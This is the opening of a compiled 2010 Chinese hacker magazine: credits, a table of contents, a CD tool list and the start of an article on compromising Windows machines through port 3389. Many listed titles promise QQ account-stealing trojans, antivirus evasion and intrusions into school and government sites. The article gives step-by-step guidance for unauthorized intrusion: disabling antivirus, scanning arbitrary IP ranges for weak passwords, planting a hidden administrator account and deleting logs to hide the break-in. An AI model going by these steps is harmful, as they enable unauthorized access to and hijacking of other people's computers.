# 黑客X档案合订本2010年（下）第一部分

---

## 《黑客X档案》畅销系列丛书 菜鸟Hacker进化最佳教程

## 2010《黑客X档案》合订本（下卷）

WWW.HACKXX.CC  WWW.HACKXX.CC  WWW.HACKXX.CC

## 菜鸟学堂

- 菜鸟须知——区别bug与漏洞
- 瑞士军刀NC简易教程
- 突破TK免费域名CNAME解析限制
- 检测非安全下载站

## QQ宝典

- 小企鹅的靓丽蜕变——QQ美化跟我学
- 突围IP随时随地享受QQ问吧的魅力
- 一张签名图助我快速查询QQ农场等级
- 秒杀腾讯限制网小招

### 做马范

- 永恒的特洛伊——幻魔QQ大盗
- 全新理念——组合式木马浅析与实战
- 伊波拉病毒 下载！下载！
- 史上最傻瓜化的远程协助

### 挖掘精彩导读

- 改变exe文件关联让exe换个“活法”
- 突破TK免费域名CNAME解析限制
- 方便实用的“我的QQ中心”
- 简单下载网吧影院电影
- 远程桌面下的文件极速共享
- 让Windows 7向Install说“不”
- 摄像头巧变“隐形”监控器
- 复合加壳，重磅免杀神话！
- 超简单方法制作个性开机启动界面
- 入侵传奇私服刷装备小记
- 又见网趣网上购物系统注入漏洞
- 菜鸟详解Cookie注入原理
- “扫业大叔”教你怎样源码免杀
- 解决加密提示空间不足的小技巧
- 使用VC制作一个恶搞程序
- 宿舍里的黑手——嗅探攻击截获密码


## 黑客X档案2010合订本（下卷）



# 《黑客X档案》2010年合订本（下卷）

- 出品人：冯硕
- 主编：Ace
- 编撰部：呆呆虫/虫虫/咖啡/黄色潜水艇/几项の痴
- 特约编辑：炫风舞/txcbg/hackest/Talent Feng/Hx小龙
- 光盘部：刘佳
- 设计：阮全勇
- 排版：QuanLu
- 发行部总监：杨洁
- 联系电话：010-88561473
- 发行部经理：赵琦
- 联系电话：010-88561472
- 联系电话：010-88560080
- E-Mail：hackerxfiles@263.net
- 定价：人民币35.00元（光盘+手册）

**声明：**刊中所载文字及图片，版权所有，未经许可不得转载。文章内容仅代表作者观点，与本刊立场无关。投稿于本刊的文章，均视为作者已授权本刊合作媒体的使用。我们发布的漏洞包含已授权披露资源，如有相关问题，请作者及时与我们联系。

## CONTENT

### 菜鸟安全

- 2010.07 手把手教你3389端口入侵抓肉机 …… 9
- 2010.07 瑞士军刀NC简易教程 …… 12
- 2010.08/09 批量拿站连连看——FTP弱口令下的入侵 …… 12
- 2010.11 菜鸟须知——区别bug与漏洞 …… 14
- 2010.11 原来黑站这么简单——看菜鸟简单批量拿站 …… 15
- 2010.11 旧事重提——再谈NTFS数据流使用技巧 …… 16
- 2010.11 让电脑帮我录文本——记一次无聊时的激情再现 …… 17
- 2010.11 改变exe文件关联让exe换个“活法” …… 18
- 2010.12 突破TK免费域名CNAME解析限制 …… 20
- 2010.12 虚拟机中系统忘记密码不用愁 …… 21
- 2010.12 检测非安全下载站 …… 24

## QQ宝典

- 2010.07 手把手教你利用手机QQ本地漏洞 …… 28
- 2010.07 一张签名图助我快速查询QQ农场等级 …… 28
- 2010.08/09 一软两步简单秒杀QQ空间日记防备份 …… 30
- 2010.08/09 看我QQ大变身，QQ群靓号也来BUG …… 31
- 2010.08/09 再续刷Q币和QQ业务的阴谋 …… 31
- 2010.08/09 突围IP随时随地享受QQ问吧的魅力 …… 33
- 2010.08/09 非黄钻用户也来无限制使用黄钻信纸 …… 34
- 2010.08/09 掀起盗Q新浪潮教小菜玩转新版爱Q大盗 …… 35
- 2010.10 QQ遁形的法宝“黑客之门” …… 37
- 2010.10 秒杀腾讯限制两小招 …… 39
- 2010.10 QQ系统假消息制作 …… 41
- 2010.10 小企鹅的靓丽蜕变——QQ美化跟我学 …… 42
- 2010.10 方便实用的“我的QQ中心” …… 45
- 2010.10 对抗腾讯跟我走玩转QQ技巧四连发 …… 47
- 2010.11 将QQ好友请到桌面上 …… 50
- 2010.11 “陌生人”请远离我的QQ …… 50
- 2010.11 360打造的超级外挂扣扣保镖 …… 52

## 网吧黑客

- 2010.07 学校机房里的“邪念”萌生记 …… 54
- 2010.08/09 破解恒信视频一卡通免费上网 …… 55
- 2010.08/09 恨网吧？就要毁了它！ …… 57
- 2010.12 菜鸟与网吧的对决 …… 58
- 2010.12 简单下载网吧影院电影 …… 59

### 炫风黑客

- 2010.07 “69圣战”之再战DRDos拒绝服务 …… 62
- 2010.07 和我一起来认识ARP欺骗 …… 63
- 2010.07 远程桌面下的文件极速共享 …… 64
- 2010.07 学360让MD5为安全护航 …… 66
- 2010.07 chrome+Proxy Switchy+SSH=通吃的翻墙大法 …… 69
- 2010.07 菜鸟也求Windbg系统内核 …… 70
- 2010.07 “Can’t open shared library ‘udf.dll’”的一种解决方法 …… 73
- 2010.07 破解文件密码箱小记 …… 74
- 2010.07 关于二级C语言程序设计题的探讨 …… 76
- 2010.08/09 疯狂的复仇——小心我D1溢出你！ …… 78
- 2010.08/09 菜鸟“抓包”一点通 …… 79
- 2010.08/09 不花钱破解MD5值 …… 80
- 2010.08/09 用WAP来执行DOS命令 …… 83
- 2010.08/09 教小菜如何利用惯性思维伪装自己的小木马 …… 83
- 2010.08/09 让Windows 7向Install说“不” …… 84
- 2010.08/09 Unicode控制符之文件名欺骗 …… 85
- 2010.08/09 人人网最新WAP验证漏洞 …… 86
- 2010.08/09 电脑上手机网 首选WinWAP！ …… 87
- 2010.08/09 破解无线路由WEP密码免费上网之“无线宝”篇 …… 88
- 2010.08/09 小菜也来暴力破解WebShell …… 91
- 2010.08/09 浅谈Windows下设置IPv6并架设VPN翻墙 …… 94
- 2010.08/09 另类后门轻松绕过系统密码验证 …… 97
- 2010.08/09 免费代理我用VPNPOP …… 98
- 2010.08/09 巧设隐藏文件的“无底黑洞” …… 99
- 2010.10 由一个快捷方式引发的挂马思路 …… 101
- 2010.10 翻墙——你懂的，终极代理Google …… 102
- 2010.10 斩断伸向本本的黑手 …… 104
- 2010.10 唬人的40位MD5加密 …… 106
- 2010.10 将机密信息“锁”在图片中 …… 107
- 2010.10 “指鹿为马”巧取Admin权限 …… 109
- 2010.10 用WinPE无痕进入加密XP系统 …… 109
- 2010.10 摄像头巧变“隐形”监控器 …… 110
- 2010.11 看菜鸟另类抓包拿Shell …… 113
- 2010.11 刷钻软件，永恒的骗局！ …… 114
- 2010.11 抓肉鸡之终极伪装 …… 115
- 2010.11 再谈Windows 7的破解 …… 117
- 2010.12 远程上线我用博客 …… 118
- 2010.12 机房里的Hacking …… 119
- 2010.12 非一般的傻瓜翻墙之旅 …… 121
- 2010.12 为ADSL Modem加把“隐形锁” …… 122
- 2010.12 解密某文件加密工具的“小把戏” …… 123

### 攻击性

- 2010.07 不会免杀也来“牧”马 …… 125
- 2010.07 菜鸟的新选择——北斗七星远程管理软件 …… 126
- 2010.08/09 纯汇编打造的“Heilfire远控” …… 129
- 2010.08/09 CHM电子书中的木马再现 …… 132
- 2010.08/09 利用lnk文件安装服务突破杀软主动防御 …… 133
- 2010.08/09 小菜初窥ASP木马的解密 …… 135
- 2010.10 手机之间的“间谍战”——巧用“蓝牙间谍”遥控远程手机 …… 138
- 2010.10 聊天助木马——IRC木马突破内网限制 …… 140
- 2010.10 史上最傻瓜化的远程协助 …… 144
- 2010.10 国外远控DarkComet …… 145
- 2010.11 感受DarkCometRAT的与众不同 …… 146
- 2010.11 远控只为开放开源自由“自由远程管理” …… 150
- 2010.11 全新理念——组合式木马浅析与实践 …… 154
- 2010.12 战争贩子QQ大盗友情分析与检测 …… 156
- 2010.12 伊波拉病毒 下载！下载！ …… 158
- 2010.12 永恒的特洛伊——幻魔QQ大盗 …… 159
- 2010.12 复合加壳 再续免杀神话！ …… 160

## CONTENT

### 黑之

- 2010.08/09 内存盘剿毒记 …… 162
- 2010.08/09 病毒知多少？防御我最先！ …… 163

### 侠隐仙踪

- 2010.08/09 守望之梦 …… 166
- 2010.10 爱就在身边 …… 167

### 洗笔沉魂

- 2010.10 自由出入，自由世界 …… 170
- 2010.10 多拉A梦大战浏览器 …… 171
- 2010.10 送给还在使用光驱安装系统的吧友们 …… 172
- 2010.10 USB鼠标也玩“超频” …… 173
- 2010.10 巧用360安全卫士去广告 …… 174
- 2010.11 让手机成为电脑的遥控器 …… 175
- 2010.11 超简单方法制作个性开机启动界面 …… 176
- 2010.11 又见熊猫 …… 177
- 2010.12 GMAIL信箱的终极插件——SMEStorage …… 179
- 2010.12 为Windows 7 Media Center整出一张“美脸” …… 180

### 一个人的战斗

- 2010.07 ShopEx 4.85注入0day简单分析与利用 …… 181
- 2010.07 PHPCMS2008 SP4最新漏洞4连发 …… 183
- 2010.07 对某团队网站的安全检测 …… 187
- 2010.07 对一科技网站的简单入侵 …… 188
- 2010.07 入侵某北大青鸟网站——Websniff 1.0使用手记 …… 190
- 2010.07 记一次FileZilla Server提权 …… 194
- 2010.07 纯手工渗透入侵XX大学 …… 199
- 2010.07 记对北交大主站的一次典型嗅探入侵 …… 200
- 2010.08/09 教小菜利用Dedecms最新0day批量拿Shell …… 203
- 2010.08/09 小小注入新玩法之提权乐翻天 …… 205
- 2010.08/09 由ShopEx脚本目录遍历漏洞引发的一次简单社工 …… 207
- 2010.08/09 玩转网趣ShopV9.7注入漏洞，WebShell批量也来猎 …… 208
- 2010.08/09 BlueCMS v1.6 sp1 SQL注入漏洞简单玩 …… 211
- 2010.08/09 天缘学校网站系统v1.3上传漏洞拿WebShell …… 213
- 2010.08/09 PHPCMS2007另类后台拿Shell …… 214
- 2010.08/09 无意的入侵 一个PR6站点的沦陷 …… 216
- 2010.08/09 对DDOS的一次入侵 …… 218
- 2010.08/09 治标不治本——对某宠物网站的一次安全检测 …… 220
- 2010.08/09 友情检测诺顿中国 …… 222
- 2010.08/09 由WebShell后门引发的“血案” …… 223
- 2010.08/09 入侵传奇私服刷装备小记 …… 227
- 2010.08/09 黑客的反击——入侵菲律宾某政府网站 …… 230
- 2010.10 aspx入侵国内某大学服务器 …… 233
- 2010.10 对当地一门户站的检测手记 …… 236
- 2010.10 由母校检测引发的苏亚星VOD点播系统V5.0漏洞 …… 237
- 2010.10 菜鸟入侵北京XX北大青鸟 …… 239
- 2010.10 手工搞定台湾某医院网站 …… 240
- 2010.10 简单拿WebShell笔记 …… 241
- 2010.11 Dvbbs php 2.0++最新注入漏洞 …… 243
- 2010.11 PHP168 V6.02远程执行任意代码漏洞简介 …… 244
- 2010.11 ecshop 2.6.2/2.7 GBK版本通杀0day助小菜轻松拿Shell …… 246
- 2010.11 FAST-CGI解析漏洞拿下网站并提权Windows 2008系统服务器 …… 248
- 2010.11 IIS6.0设计缺陷助我走上入侵成功之路 …… 253
- 2010.11 记一次“另类”的入侵检测 …… 254
- 2010.11 又见网趣网上购物系统注入漏洞 …… 258
- 2010.11 因小疏忽而沦陷——入侵本校主站全过程 …… 261
- 2010.12 Burp Suite网站攻击利器快速处理上传截断 …… 264
- 2010.12 关于Insert类型注入浅析 …… 266
- 2010.12 记一次入侵Java Web的过程 …… 268
- 2010.12 记一次学习用Dedecms模板执行漏洞拿站的过程 …… 270
- 2010.12 小漏洞里学大知识——简单脚本漏洞查找和常用技术回顾 …… 273
- 2010.12 记菜鸟的一次定点入侵 …… 274
- 2010.12 米拓信息管理系统执行任意代码助小菜拿Shell …… 277
- 2010.12 和北大青鸟某地方学校网站的较量 …… 278

## 综合

- 2010.07 可牛杀毒真的很牛 …… 285
- 2010.07 相同的软件，不同的感受 …… 287
- 2010.07 菜鸟的进程管理工具fk …… 288
- 2010.08/09 增强Windows免疫力——软件限制策略配置的技巧 …… 290
- 2010.08/09 集沙盘于一身的杀软带头大哥——Comodo使用小记 …… 291
- 2010.08/09 EFS让安全无懈可击 …… 293
- 2010.08/09 点滴防御筑起服务器安全警线 …… 294
- 2010.10 数据备份我用“云技术” …… 298
- 2010.10 “危险”的Windows粘滞键——刻不容缓 …… 299
- 2010.10 还你一片纯净天地：网络诈骗全揭露 …… 300
- 2010.10 Windows控制权争夺战 …… 305
- 2010.10 小软大用捍卫安全没我不行 …… 312
- 2010.11 用U盘制作进入系统的“门钥匙” …… 316
- 2010.11 DIY小菜自己的粘滞键后门+替换程序 …… 317
- 2010.12 浅谈PPTP防注入 …… 322
- 2010.12 脱离360与QQ的战场——第三方软件客观面对恶意行为 …… 323

### 黑客研究院

- 2010.07 跟我学WebShell下文件批量上传下载 …… 325
- 2010.07 OPENROWSET使用小记 …… 328
- 2010.07 大学教育站点的软肋 …… 331
- 2010.08/09 解密Unicode编码小菜也能玩 …… 333
- 2010.08/09 Oracle注入初体验 …… 335
- 2010.08/09 浅谈phpaacms下SQL注入的修复 …… 337
- 2010.08/09 栈溢出攻击的学习与实践 …… 337
- 2010.11 跟我来挖0day …… 340
- 2010.11 XSS、CSRF攻击入门 …… 341
- 2010.11 国内企业站点CMS漏洞解析 …… 343
- 2010.11 对某aspshell登录密码的简单分析 …… 346
- 2010.11 菜鸟详细解析Cookie注入原理 …… 349
- 2010.12 HTTP协议头攻击 …… 351
- 2010.12 一次加密的ASPShell深入剖析 …… 353
- 2010.12 抛开中转工具直接搞定Cookie注入 …… 356
- 2010.12 再谈跨站 …… 358

## CONTENT

### UNIX 专区

- 2010.07 浅谈 Linux 权限设置 ........................................ 361
- 2010.08/09 结合 Windows 浅谈 Linux 进程管理 ............................ 364

### 游戏园

- 2010.07 另类加花创造自己的免杀神话 .............................. 367
- 2010.07 脱壳之附加数据的处理 ...................................... 368
- 2010.07 DotNet 逆向初接触 ......................................... 370
- 2010.08/09 免杀捆绑轻松搞定 ....................................... 373
- 2010.08/09 实例讲解如何寻找加密 IAT 及应对方法 ........................ 374
- 2010.08/09 记一次复杂的 VB 提示框修改 ............................... 375
- 2010.08/09 小菜也来编写自己的注册机 ............................... 378
- 2010.08/09 再逆 DotNet 程序 ......................................... 381
- 2010.10 keyfile crackme 破解 ..................................... 384
- 2010.10 张冠李戴巧为程序修图下名 .................................. 386
- 2010.11 “扫地大叔”教你怎样源码免杀 ................................ 387
- 2010.12 追寻特征码 轻松免杀灰鸽子 .................................. 392
- 2010.12 解决加壳提示空间不足的小技巧 .............................. 394
- 2010.12 LeapFTP 的轻量级破解 ...................................... 395

### 黑客编程

- 2010.07 使用 E 语言来编写一个简单的游戏外挂 .......................... 397
- 2010.07 用 VB 制作 UDP 洪水攻击器 .................................... 400
- 2010.07 VC9 完善进程管理器——菜单栏的添加以及函数编写 ................ 401
- 2010.08/09 VB 来制作论坛挂机工具 ................................... 404
- 2010.08/09 使用 VC 制作一个恶搞程序 .................................. 405
- 2010.08/09 盗号军刺，绝杀 QQ 炫舞！——使用 VB 编写一个炫舞盗号木马 ........ 407
- 2010.08/09 由 DLL 进程注入谈 Windows 权限设置误区 ...................... 410
- 2010.08/09 DIY 自己的 DLL 注入病毒 .................................. 413
- 2010.10 VB 打造独门黑客秘籍——超级强大的 shift 后门 ................... 421
- 2010.10 编写属于自己的可视化汇编编译器 ............................ 422
- 2010.10 打造《植物大战僵尸年度版》外挂程序 ......................... 423
- 2010.11 黑客编程——IP 查询工具 ...................................... 427
- 2010.11 从内存释放软件的原理到虚拟内存 ............................ 428
- 2010.12 个人隐私的危机——身份证号安全分析与批量猜解 ................ 430
- 2010.12 黑客编程之密码截获技术 .................................... 435
- 2010.12 从教育网站作弊实例谈脚本编程 .............................. 436
- 2010.12 隐蔽后门的制作 ............................................ 439

### 主题乐园

- 2010.07 35 互联虚拟主机配置揭秘 .................................... 443
- 2010.08/09 快马加鞭插件助我 SEO .................................... 453
- 2010.08/09 破解——浅谈对各种保护的突破 ............................ 456
- 2010.08/09 菜鸟安全之 QQ“戒毒所” ................................... 462
- 2010.10 宿舍里的黑手——嗅探攻击截获密码 ............................ 469
- 2010.11 是善意的谎言欺骗了你？——欺骗黑客的蜜罐系统 ................ 473
- 2010.12 破解零起步（一）认识破解 .................................. 476

### 光盘索引

#### chromesetup

谷歌最新推出的 Chrome 浏览器，用户体验非常好，界面简洁明快，操作方便，设置也很简单，推荐试用。

#### Keymake173

常用的内存注册机，生成的是内存补丁程序，程序体采用 UPX 压缩。虽然常被一些杀毒程序视为病毒，但是总的来说还是不错的。

#### AspDec

ASP 脚本解密工具，由北京某软件工作室开发的一款绿色免安装软件，免费提供给大家学习研究使用，可以任意复制、传播和使用的共享软件，不含任何插件。支持多种文件类型（.ASP、.VBS、.INC），可选择路径及子目录，支持多语言编码解密。

#### OllyICE

由于 OllyDBG 1.1 官方不再更新，爱好者对其进行修改并新增功能或修复 Bug，OllyICE 即其中一个修改版。它结合 IDA 与 SoftICE 的思路，作为动态追踪工具，易上手，已成为主流调试解密工具之一。

#### ODbgPK v1.10

有多达百余个选项用于设置 OllyDbg 的外观和运行。支持多种数据显示格式：HEX、ASCII、UNICODE、16/32 位有/无符号整数、32/64/80 位浮点数、地址、反汇编等。

（OllyDbg 说明）IDEAL 或 HLA、PE 文件头或线程数据块。帮助：此文件包含理解和使用 OllyDbg 的必要信息。可挂载 Windows API 帮助文件（win32.hlp）以快速获得系统函数帮助。支持命令行启动、菜单选择、拖放、附加（Attach）到运行进程、即时调试。OllyDbg 无需安装，可直接在软盘中运行。

#### putty

PuTTY 是一套免费的 SSH / Telnet 程序，可连接支持 SSH、Telnet 的站台，并可自动获取对方系统指纹码（Fingerprint）。建立联机后通信内容加密传输，避免 Telnet 明文传输带来的安全风险。

#### Reflector

Reflector 是由 Lutz Roeder 编写的免费程序，可将 .NET 程序集中间语言反编译成 C# 或 Visual Basic 代码，并提供程序集/成员摘要、类库浏览与第三方插件支持。

#### VMware Workstation

VMWare 是“虚拟 PC”软件，可在一台机器上同时运行多个 Windows、DOS、Linux 系统。与多启动系统不同，不需频繁重启即可切换系统，并可进行虚拟分区与虚拟网络配置。

（VMWare 续）可在同一时刻运行多个操作系统，像标准 Windows 应用一样切换；每个虚拟系统都可独立配置且不影响真实硬盘数据，还可通过网卡将多台虚拟机互联成局域网。

#### ResHacker

ResHacker 可在无源文件情况下分析并显示信息，重写可执行文件资源（EXE、DLL、OCX），可修改菜单、对话框、字符串等。内置资源编译器和反编译器，可用于 Win9x、WinNT、Win2000、WinXP、Win2003。

#### LordPE

LordPE 是一款功能强大的 PE 文件分析、修改、脱壳软件，是查看 PE 格式文件信息的首选工具，并且可以修改相关信息。

#### DedeCms

织梦内容管理系统（DedeCms）以简单、实用、开源闻名，是国内知名 PHP 开源网站管理系统。历经多年发展，在功能与易用性方面不断完善，广泛用于个人站长及中小型门户网站建设。



## 手把手教你

## 3389端口入侵排险秘籍

水中月

3389 端口是 Windows 2000/2003 系统远程终端服务以及 Windows XP 系统远程桌面服务默认所使用的端口，原本是为了管理员能够方便地远程维护管理计算机而设计的，但如今已经成为了黑客们最喜爱的一种入侵途径。入侵者通过 3389 端口登录进入远程系统后，就可以像操作本地电脑那样来任意控制它，把远程电脑变成他的 3389 肉鸡了！

针对 3389 端口的入侵，我的思路就是先使用扫描工具扫描一段 IP，扫描到那些开启了 3389 端口的主机后（当然有存在漏洞的主机会更好），就使用输入法漏洞来登录远程系统，或是使用破解密码的方法来得到远程系统的登录账号和密码，最后就是在肉机上偷偷地建立一个管理员权限的账户，再删除肉机上的系统日志文件，清除自己的入侵痕迹。

### 一、扫描到入侵目标

使用 X-Scan、Superscan、流光等工具都可以扫描到开启了 3389 端口的主机。X-Scan 是国内一款非常著名的安全检测/漏洞扫描软件，可以扫描到远程主机都开放了哪些端口以及系统中存在的弱口令，还能扫描出远程主机存在的特定系统漏洞等信息，下面我就以 X-Scan 为例来进行介绍，使用其它的扫描工具方法也都是大同小异的。

在使用 X-Scan 前，我们最好先关闭杀毒软件的监视和主动防御功能，因为一些杀毒软件会自动清除 X-Scan 的插件，导致 X-Scan 无法扫描出存在安全问题的主机。比如我们关闭 KV2009 的这些功能，方法就是右键点击系统托盘区的 KV2009 图标，在右键菜单中勾选“关闭所有监视”，不勾选“主动防御”，如图1。

打开 X-Scan 的压缩包，直接双击目录下的 xscan_gui.exe 就会启动 X-Scan 了，点击 X-Scan 主界面中最上方工具栏中的“扫描参数”按钮。

点击左侧“扫描参数”按钮，在“检测范围”的“指定 IP 范围”中输入想要扫描的 IP 或 IP 段，比如“218.22.1.134-218.22.2.255”，注意这个扫描的范围不要设置得太大，否则扫描会很漫长的，如图2。点击左侧“全局设置”中的“其他设置”，勾选上“跳过没有响应的主机”以及“跳过没有检测到开放端口的主机”，这样可以提高扫描的速度。

点击左侧“插件设置”下的“端口相关设置”，在右边的“待检测端口”中输入想要扫描的端口号，X-Scan 默认就会扫描 3389 等常见端口；“检测方式”下有 TCP 和 SYN 可供我们选择，如果我们使用的是 Windows 2000/2003 系统，那么可以选择 SYN 方式，而如果是 Windows XP 系统，那么只能选择 TCP 方式，如果你想使用 SYN 方式的话，需要打上补丁才行，如图3。

我们再选择“全局设置”下的“扫描模块”，在右边窗口中选择想要扫描的项目，比如“NT-Server 弱口令”“FTP 弱口令”等等，选择完毕后就可以点击“确定”退出了，如图4。点击上方工具栏中的“开始扫描”按钮就会对设置的 IP 段进行扫描了，在界面的右方会出现扫描的进度，扫描完成后界面左边也会列出存在漏洞的主机列表，点击上方工具栏中“检测报告”就可以看到详细的扫描情况了。



图2



图1

